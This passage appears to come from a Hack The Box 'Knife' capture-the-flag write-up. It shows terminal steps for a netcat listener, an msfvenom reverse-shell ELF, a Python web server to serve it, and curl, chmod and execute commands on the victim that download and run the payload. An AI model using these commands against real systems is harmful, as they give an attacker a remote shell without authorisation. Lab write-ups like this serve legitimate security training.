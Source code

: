<br />
Start a netcat listener.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/knife]
└─$ sudo nc -nlvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
Generate a msfvenom payload.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/knife]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.16.3 LPORT=443 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: shell
```
{% endraw %}

<br />
Start python webserver to serve the new exploit.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/knife]
└─$ python -m 'http.server'                                                                                     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Transfer the new elf file to the victim.  Use chmod +x to change the permission of the file.  Run the executable.

{% raw %}
```bash
$ curl http://10.10.16.3:8000/shell -o /dev/shm/shell

$ chmod +x /dev/shm/shell

$ /dev/shm/shell
```
{% endraw %}

<br />
Check the listener and catch the shell.  Run the whoami to confirm command execution.  Use the python to ugrade the shell.
